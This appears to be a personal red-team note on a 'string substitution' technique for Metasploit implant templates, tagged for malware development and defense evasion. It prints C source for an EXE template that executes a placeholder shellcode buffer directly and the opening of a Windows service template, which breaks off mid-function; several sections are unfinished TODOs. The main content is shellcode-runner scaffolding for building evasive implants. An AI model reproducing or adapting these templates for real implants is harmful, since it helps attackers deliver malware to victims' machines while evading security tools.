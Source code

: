 # String Substitution

Search Tag(s): #helpers #malware-development #defense-evasion

TODO: Fill this info

There is a limitation with this method. It uses a few supported payload formats (refer to the [[Metasploit Implant Templates References|table reference]]).

TODO: Write steps to compile EXE and copy in the templates file destination

## 01 - EXE

C template source code

```c
#include <stdio.h>

#define SCSIZE 4096
char payload[SCSIZE] = "PAYLOAD:";

char comment[512] = "";

int main(int argc, char **argv) {
	(*(void (*)()) payload)();
	return(0);
}
```

## 02 - EXE-Service

```c
#define WIN32_LEAN_AND_MEAN
#include <windows.h>

#define PAYLOAD_SIZE	8192

char cServiceName[32] = "SERVICENAME";

char bPayload[PAYLOAD_SIZE] = "PAYLOAD:";

SERVICE_STATUS ss;

SERVICE_STATUS_HANDLE hStatus = NULL;

/*
 *
 */
BOOL ServiceHandler( DWORD dwControl ) {
	if( dwControl == SERVICE_CONTROL_STOP || dwControl == SERVICE_CONTROL_SHUTDOWN ) {
		ss.dwWin32ExitCode = 0;
		ss.dwCurrentState  = SERVICE_STOPPED;
	}
	return SetServiceStatus( hStatus, &ss );
}

/*
 *
 */
VOID ServiceMain( DWORD dwNumServicesArgs, LPSTR * lpServiceArgVectors ) {
	CONTEXT Context;
	STARTUPINFO si;
	PROCESS_INFORMATION pi;
	LPVOID lpPayload = NULL;
```